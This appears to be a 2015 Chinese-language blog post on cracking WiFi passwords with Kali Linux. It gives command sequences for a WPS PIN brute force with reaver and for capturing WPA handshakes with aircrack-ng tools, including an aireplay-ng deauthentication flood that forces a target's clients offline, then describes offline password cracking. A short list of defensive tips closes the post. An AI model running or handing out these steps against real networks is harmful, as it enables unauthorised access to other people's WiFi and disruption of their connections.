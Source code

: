 ```yaml
---
title: Kali系统下WiFi密码破解
date: 2015-11-01 11:01:00
category: Linux
tags: 
    - Kali
---
```


在网络渗透中,能够接入被攻击者的网络至关重要,只要黑客接入你的网络,利用DNS欺骗,arp攻击等各种钓鱼技术,基本上就能获取一切信息,WIFI网络的安全性重要性不言而喻!

手机上有很多类似360免费WIFI和WIFI万能钥匙的软件,可以"破解"WIFI密码,实际上这类软件不是"破解"而是"偷"密码,这类软件在安装的时候会自动上传你家的WIFI密码,也有可能是你一不小心分享出去的!分享之后别人使用软件就能连上你家的WIFI了,一般来说,商家WIFI比较多。

<!--more-->

## 常见的WIFI破解技术有2种:

攻击测试环境:kali linux 64位,可以安装双系统,如果用虚拟机的话必须要用外置USB网卡!

### 1.PIN

该技术主要利用路由器的wps功能的bug,PIN 码分前4 和后4，先破前4 只有最多一万个组合，破后4 中的前3 只有一千个组合，一共就是一万一千个密码组合。 10 的4 次方+10 的3 次方=11000 个密码组合。当reaver 确定前4 位PIN 密码后，其任务进度数值将直接跳跃至90.9%以上，也就是说只剩余一千个密码组合了。总共一万一千个密码!

主要攻击工具:reaver,该工具十分强大,有很多配置参数,这里只列出最简单的攻击步骤,仅供参考:
```
1.airmon-ng start wlan0 #启动网卡的监听模式
2.airodump-ng wlan0mon  #查看周围区域所有WIFI信号情况
3.reaver -i wlan0mon -b AP_MAC -vv  #开始pin
4.reaver -i wlan0mon -b AP_Mac -p WPS_PIN  #得到pin值获取密码
```

>其实现在很多路由器都关闭了wps功能,所以没法pin,而且很多新的路由器都是防pin!

### 2.暴力穷尽破解

该技术理论上只要计算机计算能力够强大,没有什么密码破解不了!只是时间长短的问题.先抓握手包然后跑包!

主要工具: aircrack-ng
```
1.airmon-ng check kill        #kill一些无关进程
2.airmon-ng start wlan0       #开启网卡监听模式
3.airodump-ng wlan0mon        #查看周围区域所有WIFI信号情况
4.airodump-ng -c 信道 --bssid 目标mac -w wep wlan0mon   #开始抓包
5.airodump-ng -c 信道 --bssid 目标mac wlan0mon  #查看当前环境的WiFi连接情况
6.aireplay-ng --deauth 10000 -a 目标mac -c 客户端mac wlan0mon   #对连接到目标ap的客户端攻击,使其掉线,抓取握手包!
```

备注:抓包的关键是第6步抓取握手包,所谓握手包就是对方设备掉线后重新连接WIFI时候的数据包,只要抓到握手包就可以了。

拿到握手包后切换到windows系统,用EWSA等软件跑包,跑包速度看机器配置,主要是看显卡配置,本人笔记本i7+gt750M,一秒钟2万次,其实也看运气,如果是弱密码,分分钟钟的事情,如果是包含字母\标点符号\特殊符号的密码......那几乎不可能!

### 3.防备措施:
1. 不要安装 xxx免费WIFI等软件,如果不小心把密码分享出去的话,只能改密码了!

2. 关闭路由器wps功能.此功能大部分人都用不到

3. 隐藏ssid.这样别人就搜不到你家的WIFI信号，虽然用途并不大

4. 使用复杂密码,包含字母\标点符号\特殊符号!这招最有效

